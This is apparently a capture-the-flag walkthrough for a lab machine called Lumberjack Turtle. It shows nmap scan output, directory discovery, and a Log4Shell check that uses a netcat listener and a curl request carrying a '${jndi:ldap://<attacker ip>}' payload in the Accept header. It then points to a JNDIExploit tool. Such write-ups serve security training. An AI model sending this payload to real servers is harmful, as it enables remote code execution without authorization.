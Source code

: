 # Lumberjack Turtle


1. Enumerate with nmap
```
$ sudo nmap -sS -A 10.10.51.187
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-08 23:13 EST
Nmap scan report for 10.10.51.187
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE     VERSION
22/tcp open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6a:a1:2d:13:6c:8f:3a:2d:e3:ed:84:f4:c7:bf:20:32 (RSA)
|   256 1d:ac:5b:d6:7c:0c:7b:5b:d4:fe:e8:fc:a1:6a:df:7a (ECDSA)
|_  256 13:ee:51:78:41:7e:3f:54:3b:9a:24:9b:06:e2:d5:14 (ED25519)
80/tcp open  nagios-nsca Nagios NSCA
|_http-title: Site doesn't have a title (text/plain;charset=UTF-8).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=2/8%OT=22%CT=1%CU=34817%PV=Y%DS=4%DC=T%G=Y%TM=62033FA8
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)SEQ(
OS:SP=105%GCD=1%ISR=10D%TI=Z%CI=Z%TS=A)OPS(O1=M506ST11NW7%O2=M506ST11NW7%O3
OS:=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6=M506ST11)WIN(W1=F4B3%W2=F
OS:4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW
OS:7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   231.17 ms 10.13.0.1
2   ... 3
4   231.27 ms 10.10.51.187

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.43 seconds
```

2. Go to the website, use gobuster twice to find the hidden directories `http://<ip address>/~logs/log4j`
3. The hint says `Hello, vulnerable world! What could we do HERE?`. Check if it's vulnerable to log4jshell by setting up a netcat listener at a port `nc -nvlp <port>` and then sending a GET request with a log4j payload in the `accept` header `curl -H 'accept:${jndi:ldap://<attacker ip address>:9999}' http://<target ip address>/~logs/log4j`. If a connection is received, then it's vulnerable
4. Use the [JNDIExploit package](https://github.com/christophetd/log4shell-vulnerable-app/blob/main/README.md)
